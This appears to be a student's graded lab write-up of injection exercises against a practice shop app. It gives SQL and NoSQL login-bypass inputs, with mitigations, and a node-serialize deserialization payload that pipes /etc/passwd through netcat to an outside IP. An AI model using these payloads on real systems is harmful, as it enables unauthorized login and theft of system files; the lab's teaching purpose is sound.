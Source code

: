 **Attack:**   
SQL-Injection / Exploit:

```text
' or 1=1 #
```

select \* from users where username = 'hacker33' and password = '' and locked = 0; If we now enter the code above instead of  the string ' or 1=1 \# is entered. Since we have an OR, the query will be true and continue with login. the \# \(hashtag\) at the end is also important to strip away everything after that.

**Mitigation:** 

* Applications Code needs to be improved \(Prepared statements\)
* Run DB in least privileges
* WAF could help that such requests will not even pass

==&gt; 17/20 Points

## 2400 CowbellShop 1 NOSQL

_**Answers:**_  
**Securty Problem:**   
NOSQL-Injection possible on login form of bell shop  
  
**Attack:**   
SQL Injection / Exploit for login in without credentials

```text
username: {"$ne": null}
password: {"$ne": null}
```

=&gt; See screenshot

**Mitigation:**

* Applications Code needs to be improved \(data input validation\)
* Use of middleware \(for example: joi/celebrate if you use NodeJS\) 
* A proper setup of a WAF could block such requests

==&gt; 5/5 Points

## 2406 CowbellShop 7 SERIAL

**Security Problem:**   
In a node application the users search input will most likely be converted to a object using node-serialization function.

**Attack:**   
Serialization / Send content of /etc/passwd over port 80 to the hacker by entering the following to the search field:

```text
_$$ND_FUNC$$_function (){require('child_process').exec('cat /etc/passwd |nc 10.201.1.118 80');}()
```
